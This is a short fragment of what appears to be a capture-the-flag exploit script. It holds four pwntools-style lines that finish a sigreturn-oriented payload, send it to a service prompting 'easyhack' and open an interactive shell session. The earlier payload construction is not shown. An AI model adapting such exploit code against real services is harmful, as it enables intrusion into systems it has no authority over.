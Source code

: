 ```bash
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

io.sendafter('easyhack\n',payload)

io.send('a')

io.interactive()
```
